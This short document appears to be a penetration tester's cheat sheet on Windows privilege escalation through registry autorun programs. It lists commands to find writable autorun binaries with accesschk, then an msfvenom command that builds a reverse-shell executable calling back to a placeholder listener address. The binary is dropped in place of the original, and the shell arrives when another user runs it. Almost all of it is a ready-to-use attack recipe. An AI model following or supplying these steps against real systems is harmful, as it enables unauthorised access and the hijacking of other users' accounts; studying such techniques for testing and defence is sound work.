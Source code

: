 # Registry
## Autorun
* C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe -> Look for strange programs
* C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\PATH\PROGRAM"
If you can overwrite, try to create a file with the same name but with reverse shell content
* msfvenom -p windows/shell/reverse_tcp lhost=X.X.X.X -lport=443 -f exe -o program.exe
* Then wait a few seconds or access into the other user and you'll get your shell
